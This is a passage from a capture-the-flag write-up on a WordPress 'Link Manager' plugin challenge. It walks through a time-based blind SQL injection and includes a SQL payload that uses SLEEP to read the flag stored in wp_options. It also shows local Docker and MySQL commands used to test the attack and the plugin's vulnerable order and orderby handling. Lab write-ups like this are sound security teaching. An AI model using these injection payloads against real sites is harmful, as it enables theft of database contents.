 
In the above payload, if the character of the `<start_position>` in column `<column_name>` table `<table_name>` equals to `<character_here>`, it'll `SLEEP` for 1 second. Otherwise, do nothing. Therefore, if the response has 1-second delay, we can know that we found the correct character at x position.

In WordPress options, all data is stored in the [wp_options] table. Inside this table, column `option_name` and `option_value` holds the option's name, and it's value, kind of like a key-value pair. In our case, we can get the flag option's value via option name `flag_links_data`. We can try to test it in our local environment:

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-WCUS-Capture-The-Flag/Link-Manager)-[2024.09.21|19:11:45(HKT)]-[git://main ✗]
└> docker compose run --rm wpcli option add 'flag_links_data' 'REDACTED'
[...]
┌[siunam♥Mercury]-(~/ctf/Patchstack-WCUS-Capture-The-Flag/Link-Manager)-[2024.09.21|19:11:51(HKT)]
└> docker container list                                                
CONTAINER ID   IMAGE                               COMMAND                  CREATED             STATUS             PORTS                                                                                  NAMES
[...]
cafb4c17ae14   mysql:8.0.20                        "docker-entrypoint.s…"   About an hour ago   Up About an hour   0.0.0.0:3306->3306/tcp, :::3306->3306/tcp, 33060/tcp                                   mysql-wpd
┌[siunam♥Mercury]-(~/ctf/Patchstack-WCUS-Capture-The-Flag/Link-Manager)-[2024.09.21|19:11:59(HKT)]
└> docker exec -it cafb4c17ae14 /bin/bash
root@cafb4c17ae14:/# 
```

```shell
root@cafb4c17ae14:/# mysql -umydbuser -pmydbpassword -Dmydbname
[...]
mysql> SELECT option_value FROM wp_options WHERE option_name = 'flag_links_data';
+--------------+
| option_value |
+--------------+
| REDACTED     |
+--------------+
```

Now let's modify our payload to exfiltrate the flag option via conditional statement!

```sql
(SELECT IF(MID( (SELECT option_value FROM wp_options WHERE option_name = 'flag_links_data') ,<start_position>,1)='<character_here>',SLEEP(1),NULL))
```

Oh... Wait. We can't use single or double quote characters, because it'll be escaped by WordPress function `sanitize_text_field`:

```php
function get_link_data() {
    [...]
    $order = sanitize_text_field($_POST['order']);
    $orderby = sanitize_text_field($_POST['orderby']);
```
